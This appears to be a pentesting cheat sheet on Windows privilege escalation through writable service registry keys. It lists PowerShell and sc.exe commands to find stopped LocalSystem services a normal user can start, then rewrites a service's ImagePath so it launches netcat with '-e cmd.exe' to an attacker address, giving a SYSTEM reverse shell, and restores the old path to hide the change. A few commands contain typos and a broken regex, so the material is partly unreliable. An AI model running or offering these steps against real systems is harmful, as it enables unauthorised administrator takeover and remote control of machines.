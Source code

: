 ## Verify rights on registry

- If a user have full control over registries, it's possible to start some services with Localsystem rights, so with a reverse shell, you'll be logged as administrator.

- Two ways of checking :
```
$acl = get-acl HKLM:\System\CurrentControlSet\Services
```
- To translate sddl (Security Description Definition Language), two choices : 
`ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_DiscrtionaryAcl}`, or  https://github.com/itsKindred/sdshow_parse

- Another way of checking : `accesschk64.exe /accepteula "<user>" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services`

- If you have full control, it's over.

- Store all the services in a variable : `$services = gci  hklm:\system\curentcontroluser\services`

- Next step : two choices :
1. Find a service running, owned by LocalSystem with no dependencies to escalate your priviledge and wait for a restart
or
2. Find a service stopped, owned by LocalSystem with no dependecies to escalate priviledge and authenticated user is able to start the service.

- Option 2:
1. List the services : `$services = gci -name HKLM:\System\CurrentControlSet\Services`. Here name is used to extract only the object Name.
2. `$sddl = (sc.exe sdshow $service)[1]; if ($sddl -match "RP[A-Z]*?;;;AU") { write-host $service }`. Here we extract the sddl of each service, and then use a regex to match RP (Read Property) for AU saying that an authenticated user can start the service.
3. Find a stopped service : `$state = (sc.exe query service)[3]; if ($state -match "STOPPED") { write-host $service }`
4. Find a service without dependencies : `$dependencies = (sc.exe qc $service)[10]; if ($dependencies -match ": (?![A-Za-z)" { write-host $service }`
5. Owned by LocalSystem : `$admin = (sc.exe qc $service)[11]; if ($admin -match "LocalSystem") { write-host $service }`
6. Put everything in a foreach and here we are ! `foreach($service in $services) { $sddl = (sc.exe sdshow $service)[1]; $state = (sc.exe query service)[3]; $dependencies = (sc.exe qc $service)[10]; $admin = (sc.exe qc $service)[11]; if ($admin -match "LocalSystem" -and $dependencies -match ": (?![A-Za-z])" -and $state -match "STOPPED" -and $sddl -match "RP[A-Z]*?;;;AU") { write-host $service }} `

- Once you have the desired service, modify the registry :
```
REG DELETE HKLM\SYSTEM\CURRENTCONTROLSET\Services\<service> /v ImagePath /f
REG ADD HKLM\SYSTEM\CURRENTCONTROLSET\Services\<service> /v ImagePath /t REG_SZ /d "%WINDIR%\System32\cmd.exe /c start %WINDIR%\system32\spool\drivers\color\cute.exe <ip> <port> -e cmd.exe" /f
sc start <service>
```

- or : 
```
$old_path = (get-itemproperty HKLM:\system\currentcontrolset\services\wuauserv).ImagePath; 

set-itemproperty -erroraction silentlycontinue -path HKLM:\system\currentcontrolset\services\<service> -name imagepath -value "\windows\system32\spool\drivers\color\nc64.exe -e cmd <ip> <port>"; 
start-service $service -erroraction silentlycontinue; 
set-itemproperty -path HKLM:\system\currentcontrolset\services\<service> -name imagepath -value $old_path 
```

- Connection are unstable after hijack a process or an ImagePath of a service, so always get another shell after you get a connection.








